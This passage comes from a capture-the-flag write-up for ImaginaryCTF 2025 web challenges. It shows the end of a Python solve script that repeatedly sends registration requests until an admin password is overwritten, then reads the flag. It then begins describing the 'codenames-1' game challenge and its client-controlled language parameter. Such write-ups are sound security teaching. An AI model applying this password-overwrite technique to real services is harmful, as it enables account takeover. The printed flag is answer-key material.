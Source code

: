```python
        print("[+] FLAG:", (m.group(1) if m else body).decode(errors="ignore").strip())
    else:
        print(hdr.decode(errors="ignore"))
        
p = remote(HOST, PORT)

visit()

flag = False
for _ in range(200):
    status, text = register(p)
    if status == 200 and "Registered successfully" in text:
        print("[+] Admin password overwritten")
        flag = True
        break
    time.sleep(0.25)

get_flag()
```

![image](https://hackmd.io/_uploads/S1P6V0yjxe.png)

Now use the solve script, we will have the real flag in remote

`Flag: ictf{oops_ig_my_webserver_is_just_ai_slop_b9f415ea}`

## codenames-1

![image](https://hackmd.io/_uploads/Bya5zz1jgx.png)

The source is too long so I refer to it here :

https://github.com/ImaginaryCTF/ImaginaryCTF-2025-Challenges/tree/main/Web/codenames-1/challenge

First, let’s look at what the website is. It is a game where players guess cells.

![image](https://hackmd.io/_uploads/rycAWjksxl.png)

In the lobby, there are two modes. In hard mode, if you click on the opposite color, you immediately lose.

![image](https://hackmd.io/_uploads/SyTgfjkoel.png)

We can play with friends using code or add a bot to play with.

![image](https://hackmd.io/_uploads/S1ubGs1ige.png)

And this is the game:

![image](https://hackmd.io/_uploads/H1UCXi1sxx.png)

Now let’s spot what we can do. When we create a game, we can control the language that is sent to the server.
